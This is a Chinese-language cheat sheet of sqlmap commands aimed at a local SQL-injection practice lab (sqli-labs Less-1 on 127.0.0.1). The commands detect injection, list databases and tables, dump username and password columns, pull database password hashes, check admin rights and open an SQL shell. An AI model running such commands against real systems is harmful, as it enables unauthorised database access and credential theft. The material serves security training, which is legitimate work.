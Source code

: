 # 判断注入

## 判断是否存在注入

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 --batch
```

## 查询所有数据库

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 --dbs
```

## 查询指定数据库数据表

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 -D security --tables
```

## 查询指定的字段

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 -D security -T users --columns
```

## 查询指定的表的具体数据

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 -D security -T users -C id,password,username --dump
```

## 获取数据库所有用户

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 --users
```

## 获取数据库密码

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 --passwords --batch
```

## 获取当前正在使用的数据库名称

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 --current-db --batch
```

## 设置探测等级为5，并且看当前用户是否有管理员权限

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 --level 5 --is-dba
```

## 运行自定义sql语句

```
sqlmap.py -u http://127.0.0.1/sql/Less-1/?id=1 --sql-shell
```

